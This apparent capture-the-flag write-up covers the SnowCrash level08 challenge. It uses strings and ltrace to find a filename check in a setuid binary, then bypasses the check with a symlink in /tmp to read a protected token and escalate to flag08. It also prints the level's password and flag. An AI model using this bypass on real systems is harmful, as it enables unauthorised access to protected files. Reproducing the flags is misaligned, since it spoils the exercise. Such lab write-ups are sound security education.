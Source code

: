 ```
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token

level08@SnowCrash:~$ ./level08
./level08 [file to read]

level08@SnowCrash:~$ ./level08 token
You may not access 'token'

level08@SnowCrash:~$ strings level08
...
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
...
```
We guessed that [file to read] is compared to string "token" and if found the file is not read <br />
We can check it using `ltrace` which is a debugging utility in Linux, used to display the calls an application makes to shared libraries:
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                                                  = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                                              = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
`strstr` tells us that we were right <br />
We cannot change token's file name but we can create a link to it:
```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/other
level08@SnowCrash:~$ ls -l /tmp/other
lrwxrwxrwx 1 level08 level08 24 Sep 18 20:04 /tmp/other -> /home/user/level08/token

level08@SnowCrash:~$ ./level08 /tmp/other
quif5eloekouj29ke0vouxean

level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
